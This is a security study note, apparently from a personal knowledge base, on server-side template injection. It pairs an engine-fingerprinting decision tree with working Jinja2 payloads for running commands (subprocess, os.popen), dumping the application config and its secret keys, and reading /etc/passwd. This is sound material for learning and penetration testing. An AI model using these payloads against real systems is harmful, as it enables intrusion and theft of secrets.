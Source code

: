 
```
                             Smarty
                           /
                         o
                        /
          a{*comment*}b                          Mako
        /               \                       /
       o                 x                     o
      /                   \                  /
${7*7}                     ${"z".join("ab")} ---- x ---- Unknown
      \
        x                                ---- o ---- 7777777 Jinja2
         \                              /
           {{7*7}} ---- o ---- {{7*'7'}} ---- o ---- 49 Twig
               \                        \
                 x                        x
                  \                        \
                   Not Vulnerable           Unknown
```
#### Python - Jinja2 
 If you use the payload {{7*'7'}}  in Jinja2, the output would be 7777777
 **Key Vulnerability Points:**

- **Expression Evaluation**: Jinja2 evaluates expressions within curly braces `{{ }}`, which can execute arbitrary Python code if crafted maliciously.
- **Template Inheritance and Imports**: Advanced features like template inheritance and macro imports can be misused to execute unintended code, leading to information disclosure or server manipulation.
Once Jinja2's use is confirmed, we can the use the payload `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`
Below is the breakdown of the above payload:

- `"".__class__.__mro__[1]` accesses the base `object` class, the superclass of all Python classes.
- `__subclasses__()`: Lists all subclasses of `object`, and `[157]` is typically the index for the `subprocess.Popen` class (this index may vary and should be checked in the target environment).
- The subsequent method chains dynamically import and use the `subprocess` module to execute the `ls` command, capturing its output.
The `check_output` function is designed to enhance security by separating the command from its arguments, which helps to prevent [[shell]] injection attacks. Here's the general syntax:

```python
subprocess.check_output([command, arg1, arg2])
```

- **command**: A string that specifies the command to execute.
- **arg1, arg2, ...**: Additional arguments that should be passed to the command.

**Information Disclosure**: We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code.
```jinja2
{{ config.items() }}
```
Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code.
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
**Local File Inclusion (LFI)**
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
**RCE**
```jinja2
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
```